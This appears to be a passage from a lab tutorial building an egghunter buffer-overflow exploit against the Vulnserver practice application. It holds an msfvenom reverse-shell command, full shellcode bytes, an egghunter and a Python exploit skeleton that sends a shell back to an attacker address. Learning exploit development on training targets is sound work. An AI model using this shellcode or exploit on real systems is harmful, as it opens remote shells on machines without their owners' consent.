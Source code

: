 * * *

## Setting up the Egg and Shellcode

Right now the script that we have does not have any shell code to execute, nor an egg to find. Therefore, it will search forever and the exploit will not work. Let's fix that! We need to place the egg and some shell code in the buffer. I think that right now our exploit could be considered unrealistic as we already have space for standard reverse shell code. However for the purpose of learning I carried on as we still need the program to find the egg. Lets create some shell code using `msfvenom`.

```sh
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.21.1.13 LPORT=1234 -b '\x00' -f python -v shellcode
[Output removed]
```

And lets put the egg and the shellcode in the buffer that we send to Vulnserver.

```py
#!/usr/bin/python
import os, sys, socket

ip = "10.21.1.15"
port = 9999

# Badchars: \x00

hunter = (
"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
)

# msfvenom -p windows/shell_reverse_tcp LHOST=10.21.1.13 LPORT=1234 -b '\x00' -f python -v shellcode

shellcode = ("\xd9\xe8\xd9\x74\x24\xf4\x5e\x31\xc9\xbb\xec\x25\x26\x8e\xb1"
"\x52\x83\xee\xfc\x31\x5e\x13\x03\xb2\x36\xc4\x7b\xb6\xd1\x8a"
"\x84\x46\x22\xeb\x0d\xa3\x13\x2b\x69\xa0\x04\x9b\xf9\xe4\xa8"
"\x50\xaf\x1c\x3a\x14\x78\x13\x8b\x93\x5e\x1a\x0c\x8f\xa3\x3d"
"\x8e\xd2\xf7\x9d\xaf\x1c\x0a\xdc\xe8\x41\xe7\x8c\xa1\x0e\x5a"
"\x20\xc5\x5b\x67\xcb\x95\x4a\xef\x28\x6d\x6c\xde\xff\xe5\x37"
"\xc0\xfe\x2a\x4c\x49\x18\x2e\x69\x03\x93\x84\x05\x92\x75\xd5"
"\xe6\x39\xb8\xd9\x14\x43\xfd\xde\xc6\x36\xf7\x1c\x7a\x41\xcc"
"\x5f\xa0\xc4\xd6\xf8\x23\x7e\x32\xf8\xe0\x19\xb1\xf6\x4d\x6d"
"\x9d\x1a\x53\xa2\x96\x27\xd8\x45\x78\xae\x9a\x61\x5c\xea\x79"
"\x0b\xc5\x56\x2f\x34\x15\x39\x90\x90\x5e\xd4\xc5\xa8\x3d\xb1"
"\x2a\x81\xbd\x41\x25\x92\xce\x73\xea\x08\x58\x38\x63\x97\x9f"
"\x3f\x5e\x6f\x0f\xbe\x61\x90\x06\x05\x35\xc0\x30\xac\x36\x8b"
"\xc0\x51\xe3\x1c\x90\xfd\x5c\xdd\x40\xbe\x0c\xb5\x8a\x31\x72"
"\xa5\xb5\x9b\x1b\x4c\x4c\x4c\x2e\x84\x4f\x81\x46\xa4\x4f\x9d"
"\x44\x21\xa9\xf7\x78\x64\x62\x60\xe0\x2d\xf8\x11\xed\xfb\x85"
"\x12\x65\x08\x7a\xdc\x8e\x65\x68\x89\x7e\x30\xd2\x1c\x80\xee"
"\x7a\xc2\x13\x75\x7a\x8d\x0f\x22\x2d\xda\xfe\x3b\xbb\xf6\x59"
"\x92\xd9\x0a\x3f\xdd\x59\xd1\xfc\xe0\x60\x94\xb9\xc6\x72\x60"
"\x41\x43\x26\x3c\x14\x1d\x90\xfa\xce\xef\x4a\x55\xbc\xb9\x1a"
"\x20\x8e\x79\x5c\x2d\xdb\x0f\x80\x9c\xb2\x49\xbf\x11\x53\x5e"
"\xb8\x4f\xc3\xa1\x13\xd4\xe3\x43\xb1\x21\x8c\xdd\x50\x88\xd1"
"\xdd\x8f\xcf\xef\x5d\x25\xb0\x0b\x7d\x4c\xb5\x50\x39\xbd\xc7"
"\xc9\xac\xc1\x74\xe9\xe4")

# EIP: 625011AF
eip = "\xaf\x11\x50\x62"
jumpBack = "\xEB\xCE\x90\x90"

```